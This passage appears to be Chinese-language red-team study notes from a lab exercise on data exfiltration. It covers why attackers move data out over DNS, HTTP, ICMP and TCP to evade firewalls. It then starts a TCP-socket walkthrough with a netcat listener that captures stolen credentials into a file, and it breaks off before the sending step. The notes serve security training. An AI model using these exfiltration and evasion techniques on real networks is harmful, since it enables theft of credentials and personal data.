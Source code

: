 #### 一、 概述 (Overview)

数据窃取是指未经授权地、隐蔽地将敏感数据从受控的内部网络复制并转移到攻击者控制的外部位置的过程。这通常是网络攻击的后期阶段，在攻击者已获得目标网络访问权限并收集到有价值数据之后进行，属于网络杀伤链模型中的“目标行动” (Actions on Objectives) 环节。

网络犯罪分子攻击公司的目的各异，但多数情况下最终目标是数据泄露，即将窃取的敏感数据在暗网出售或公开。数据窃取技术旨在模拟正常的网络活动，利用常见的网络协议（如 DNS, HTTP(S), ICMP, SSH 等）作为数据传输的载体，从而绕过防火墙等网络安全产品的检测，使得恶意流量难以与合法流量区分。作为红队成员，掌握和运用这些技术对于隐匿行踪、避免被检测至关重要。

**敏感数据类型示例**:

- 用户名、密码等身份验证信息。
- 银行账户详情、信用卡信息。
- 商业战略、决策文件、知识产权。
- 加密密钥、证书。
- 员工及个人身份信息 (PII)。
- 项目源代码、研发数据。

#### 二、 数据窃取的核心用途 (Core Use Cases of Data Exfiltration)

1. **直接窃取数据 (Direct Data Theft / Traditional Exfiltration)**:
    
    - **场景**: 将收集到的敏感数据从组织网络单向移出到攻击者控制的服务器。攻击者通常不关心响应，只关注数据成功传出。
2. **命令与控制 (C2) 通信 (Command & Control Communication)**:
    
    - **场景**: 利用隐蔽信道（包括非传统协议）在攻击者和受控主机之间建立双向通信，用于发送命令、接收执行结果。许多 C2 框架支持通过这些协议进行通信。
3. **隧道传输 (Tunneling)**:
    
    - **场景**: 在受害者网络与攻击者控制的机器之间建立加密或混淆的通信通道，充当桥梁，使攻击者能够访问原本无法直接访问的内部网络资源。通常涉及持续的数据发送和接收。

#### 三、 基于常见网络协议的数据窃取技术

##### A. TCP 套接字窃取 (TCP Socket Exfiltration)

- **原理与适用场景**: 直接利用 TCP 套接字建立连接并传输数据。由于其流量特征可能不符合标准应用协议，在缺乏强大网络监控的非安全环境中可能被使用。为增加隐蔽性，常结合数据编码（如 Base64）和归档（如 tar）。
- **基本 TCP 通信流程**:
    1. 一台机器（接收方/攻击者）在特定端口监听传入连接。
    2. 另一台机器（发送方/受害者）连接到该指定端口。
    3. 连接建立后开始数据传输。
- **步骤与示例**:
    
    - **环境**: 攻击者机器 (JumpBox - `jump.thm.com`)，受害者机器 (`victim1.thm.com`)。 <!-- end list -->
    
    1. **攻击者机器 (JumpBox) 监听**:
        
        Bash
        
        ```
        thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
        ```
        
        - `-l`: 监听模式。
        - `-v`: 详细输出。
        - `-p 8080`: 指定监听端口。
        - `> /tmp/task4-creds.data`: 将接收到的数据重定向到文件。
    2. **受害者机器 (victim1) 准备并发送数据**: 假设数据在 `task4/creds.txt`。
        
        Bash
        